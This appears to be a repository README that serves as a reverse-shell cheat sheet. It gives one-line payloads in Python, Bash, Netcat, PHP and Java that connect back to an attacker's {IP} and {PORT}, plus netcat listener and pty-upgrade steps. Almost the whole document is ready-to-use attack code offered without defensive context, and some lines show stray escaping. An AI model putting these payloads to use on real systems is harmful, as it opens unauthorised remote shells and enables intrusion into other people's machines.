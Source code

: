 Reverse-Shell
=============

A list of Reverse Shells on multiple languages. Replace `{IP}` and `{PORT}` values
with a couple `IP:port` the server can access. Then, on your local machine you open
a listener with `netcat`:

## On local machine
To listen for an incoming connection and upgrade to a pty shell:
```bash
nc -lvnp {PORT}

# after the connection is established
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then, `Ctrl-Z` and type:
```bash
stty raw -echo
```

The console should be black, next foreground the shell with `fg` then
reinitialize the terminal with `reset`.


## On the remote server

### Windows
```bash
> cmd.exe /C <cmd>
```

### Python
```bash
python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"{IP}\\",{Port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);\'
```

### Bash
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

### Netcat
```bash
nc -e /bin/sh {IP} {PORT}
```

### Java
```java
r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
```

This payload can also work with `BeanShell` scripts.


### PHP
```bash
php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```


